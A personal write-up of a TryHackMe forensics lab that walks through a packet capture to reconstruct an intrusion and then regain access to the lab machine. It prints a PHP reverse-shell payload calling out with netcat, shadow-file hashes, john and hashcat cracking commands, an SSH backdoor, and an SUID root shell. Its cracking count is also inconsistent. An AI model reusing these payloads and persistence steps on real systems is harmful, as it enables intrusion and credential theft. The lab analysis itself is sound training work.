

[<- home](/)

[<- home](/)

# Overpass [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

Let's start by opening `wireshark` and loading the `.pcapng` file from the task.


The first question in the walkthrough asks:

- What was the URL of the page they used to upload a reverse shell?

Let's use some `wireshark` display filters to filter for `POST` requests made:

```
http.request.method == POST
```
One packet appears. When we look into protocol dissectors, one of them stands out for the purpose of our question above:

```
MIME Multipart Media Encapsulation, Type: multipart/form-data ...
```

There's a subdissector under it called `Encapsulated multipart part`. In the `Content-Disposition` header under this subdissector we see a parameter:


```
filename="payload.php"
```

As this is the only `POST` request in the entire packet capture we are working on, it's safe to assume a web path this was uploaded to is what we are looking for. In the Hypertext Transfer Protocol (HTTP) dissector of the same packet, there is a `POST` request subdissector, under which we can see a header:



```
Request URI: /development/upload.php
```

The answer to our question is __`/development/`__, although I don't know why the full path, or full URL isn't the right answer, as that's what is asked in the question.

Anyway, the next question is

- What payload did the attacker use to gain access?

The answer format seems long with slash (`/`) separators. At the end of Hypertext Transfer Protocol dissector in Wireshark, there's a header:


```
File Data: 454 bytes
```

With right click on it select __Copy__ > __... as Hex Stream__ and navigate to [CyberChef](https://gchq.github.io/CyberChef). Select _From Hex_ and paste the copied Hex Stream in the input. The decoded payload is:

__`
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
`__

Next question is

- What password did the attacker use to privesc?

A hint suggests we need to check for the use of `netcat` for reverse shell connection. We saw in the decoded payload above that the listening netcat port was `4242` and the IP was `192.168.170.145`.

So I went through all packets after the `netcat` shell started and decoded all TCP payloads I could find. Each payload indicated that the attacker is trying to privesc using Sudo by changing the user. 


At last he logged in as user named `james` with password:

__`whenevernoteartinstant`__

The next question is

- How did the attacker establish persistence?

We need to track packets for changes and one of the significant changes occurs with two DNS, two ARP followed by two DNS packets again after which the ports of the connection change. So I went packet by packet decoding TCP payloads and it appears the attacker was using `ssh-backdoor` as persistence. Packet No. 121 has the following payload:

```
0000   0d 3c 67 69 74 20 63 6c 6f 6e 65 20 68 74 74 70   .<git clone http
0010   73 3a 2f 2f 67 69 74 68 75 62 2e 63 6f 6d 2f 4e   s://github.com/N
0020   69 6e 6a 61 4a 63 30 31 2f 73 73 68 2d 62 61 63   injaJc01/ssh-bac
0030   6b 64 6f 6f 72 0d 0a                              kdoor..
```

The next question is:

- Using the fasttrack wordlist, how many of the system passwords were crackable?

So we need to find where the attacker revealed the shadow file and test those hashes. 

For that purpose we can simply filter for a mention of `shadow` in TCP payloads:

```
tcp contains "shadow"
```

This shows two packets with near identical tcp payload `sudo cat /etc/shadow`. The latest of these is No. 112 so a packet directly after this one with a TCP payload should show the entire `shadow` file's contents:


```
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

Let's crack these:

```
john shadow.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt
```

Turns out it's only __four__ passwords, that were crackable:

```
1qaz2wsx    (muirland)
abcd123     (szymex)
secret12    (bee)
// Couldn't crack the last one.
```

The next question is:

- What's the default hash for the backdoor?

I was confused about it at first, but then rightly deduced this is asking us to analyze the source code of: `https://github.com/NinjaJc01/ssh-backdoor`, which was pretty straightforward. We need to look into the `main.go` file. The default hash for the backdoor is located at line 19:

```
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```

- What's the hardcoded salt for the backdoor?

The hardcoded salt for the backdoor is located at the bottom of the file, line 108:

```
1c362db832f3f864c8c2fe05f2002a05
```

- What was the hash that the attacker used? - go back to the PCAP for this!

In the code:

```
...
flaggy.String(&hash, "a", "hash", "Hash for backdoor")
...
```

It says that to introduce a hash, flags `-a` or `--hash` can be used. So let's adjust our `wireshark` filter:

```
tcp contains "backdoor -a"
```

Packet No. 3479 is a command with the hash:


```
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

So there's our hash. 

- Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Alright. As we know that this hash is salted, we need to use appropriate flags. I'm going to use `hashcat` for this purpose.

First I'll put the hash and the salt in a `hash.txt` file with the following format: `hash:salt`

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05
```

Then I'll use hashcat to crack it. The source code says it's SHA512:

```
hashcat -m 1710 hash.txt /usr/share/wordlists/rockyou.txt
```

The resulting password is __`november16`__.

Now we need to hack our way back in and retrieve the flags. 

- The attacker defaced the website. What message did they leave as a heading?

__`H4ck3d by CooctusClan`__

Let's go back in:

```
ssh james@10.10.59.67 -p 2222 -oHostKeyAlgorithms=+ssh-rsa

```

Use `november16` as password.

```
cat /home/james/user.txt
```

User flag.

<sup>_Assisted by [Write-up](https://medium.com/@mat.redzia/overpass-2-tryhackme-write-up-fc809b608864)_</sup> There is also an `.suid_bash` binary in `james`' home directory:

```
./.suid_bash -p
```

This runs a root shell.

```
cat /root/root.txt
```

Root flag.
